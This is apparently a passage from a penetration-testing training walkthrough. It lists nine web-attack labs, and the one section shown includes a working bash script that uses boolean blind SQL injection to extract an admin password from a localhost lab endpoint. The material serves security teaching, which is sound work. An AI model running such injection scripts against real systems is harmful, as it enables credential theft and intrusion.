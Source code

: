 # Zeroday Academy - Intermediate Labs Walkthrough

**Advanced exploitation techniques for experienced penetration testers**

---

## Table of Contents

1. [Blind SQL Injection (Advanced)](#1-blind-sql-injection-advanced)
2. [Stored XSS with Filter Bypass](#2-stored-xss-with-filter-bypass)
3. [Advanced Authentication Bypass](#3-advanced-authentication-bypass)
4. [Command Injection with Filter Evasion](#4-command-injection-with-filter-evasion)
5. [Advanced Data Exposure Techniques](#5-advanced-data-exposure-techniques)
6. [XXE with Out-of-Band Exploitation](#6-xxe-with-out-of-band-exploitation)
7. [Complex Access Control Bypass](#7-complex-access-control-bypass)
8. [Advanced Security Misconfiguration](#8-advanced-security-misconfiguration)
9. [Advanced Deserialization Attacks](#9-advanced-deserialization-attacks)

---

## 1. Blind SQL Injection (Advanced)

### Vulnerability Description
Advanced blind SQL injection techniques including boolean-based, time-based, and error-based extraction methods. This lab simulates real-world scenarios where direct output is not available.

### Impact
- Complete database enumeration without visible output
- Automated data extraction through scripted attacks
- Bypassing advanced filtering mechanisms
- Privilege escalation through stored procedures

### Advanced Solution Steps

#### Step 1: Boolean-Based Blind SQL Injection
**Objective:** Extract data using conditional true/false responses

**Using curl with automated character extraction:**
```bash
#!/bin/bash
# Script to extract admin password character by character
password=""
for i in {1..20}; do
  for ascii in {32..126}; do
    response=$(curl -s "http://localhost:5000/api/vuln/sqli-advanced?id=1' AND ASCII(SUBSTR((SELECT password FROM users WHERE role='admin'),$i,1))=$ascii--")
    if [[ $response == *"TRUE"* ]]; then
      char=$(printf "\\$(printf '%03o' $ascii)")
      password+=$char
      echo "Character $i: $char (Password so far: $password)"
      break
    fi
  done
done
```
